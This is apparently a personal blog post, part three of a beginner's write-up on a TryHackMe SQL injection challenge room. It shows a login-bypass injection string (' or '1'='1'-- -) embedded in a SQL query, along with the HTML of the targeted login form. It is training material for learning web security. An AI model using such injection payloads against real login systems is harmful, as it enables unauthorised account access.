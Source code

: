 +++
author = "Thao"
title = "My first hacking challenge: SQL Injection chap.3"

date = "2023-03-15"
summary = "In the second task, participants will work with an input box string, while the third task focuses on URL Injection. These challenges are designed to test our knowledge and problem-solving abilities in various cybersecurity scenarios. By completing these challenges, participants can gain valuable experience and insights into how to identify and mitigate security risks in real-world situations."
tags = [
    "sql",
    "hacking",
    "My first hacking challenge",
]
toc = false
thumbnail = "https://www.thesslstore.com/blog/wp-content/uploads/2022/05/xml-injection-attack-feature.jpg"
+++

Welcome back to my post with the third chap about SQL Injection challenge on tryhackme.

## Third chap - fourth task
1. Environment Setup.

[Check at chap 1](https://whatisthaodoing.today/post/my-first-hacking-challenge-sql-injection-chap.1/)

```sql
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID='1' or '1'='1'-- -' AND password='a665a45920422f9d417e4867efdc4fb8a04a1f3fff1fa07e998e86f7f7a27ae3'
```

{{< figure src="/sql-injection-img/p2/Challenge-room-all-task-4.png" width="100%">}}

task 4

```html
<form action="/sesqli4/login" onsubmit="return validateform()" name="inputForm" method="POST">
        <h2 class="text-center">Log in</h2>
        <div class="form-group">
            <input type="text" class="form-control" placeholder="ProfileID" required="required" name="profileID">
        </div>
        <div class="form-group">
            <input type="password" class="form-control" placeholder="Password" required="required" name="password">
        </div>
        <div class="form-group">
            <button type="submit" class="btn btn-primary btn-block">Log in</button>
        </div>
    </form>
```

